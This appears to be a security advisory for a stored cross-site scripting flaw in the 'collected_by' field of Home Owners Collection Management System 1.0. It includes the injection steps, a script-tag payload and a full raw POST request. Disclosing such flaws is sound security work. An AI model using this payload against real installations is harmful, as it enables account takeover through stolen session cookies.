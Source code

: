 ### Exploit Title:Home Owners Collection Management System -  'collected_by' Stored Cross Site Scripting (XSS)
### Exploit Author: fuuzyap1

### Description:
A Stored Cross Site Scripting (XSS) vulnerability exists inHome Owners Collection Management System 1.0 via the Service List Section in login panel. an attacker can steal the cookies leading to Full Account Takeover.

### Exploit:
Login to the admin panel http://localhost/classes/Master.php?f=save_collection
Navigate to List of Collections and click on edit New button.
Inject the below payload in collected_by parameter

![image](https://user-images.githubusercontent.com/95869214/153041269-7d068b93-6a7b-4e9a-922c-f1b1b24c7a46.png)

![image](https://user-images.githubusercontent.com/95869214/153041503-e9a65bd1-fb93-49a6-8261-51dc2a56c3c8.png)


payload:
```
Sample Collector1231"<sCrIpT>alert(1)</ScRiPt>
```

requests:

```
POST /classes/Master.php?f=save_collection HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------144369869742587923891614191865
Content-Length: 1761
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/?page=collections
Cookie: PHPSESSID=06uv4t86d27aq8auhuohh947s8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="id"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="date_collected"

2022-02-08
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="collected_by"

Sample Collector1231"<sCrIpT>alert(1)</ScRiPt>
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="member_id"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[3]"

100
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[3]"

3
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[4]"

100
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[4]"

4
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[1]"

200
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[1]"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[5]"

50
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[2]"

200
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[2]"

2
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="total_amount"

600
-----------------------------144369869742587923891614191865--

#### Proof and Exploit:
![image](https://user-images.githubusercontent.com/95869214/153044852-cfaff0e0-ebcc-4e45-9428-69fe810f8ea3.png)

### Impact:
An attacker can able to inject malicious JavaScript code in Service List Section.

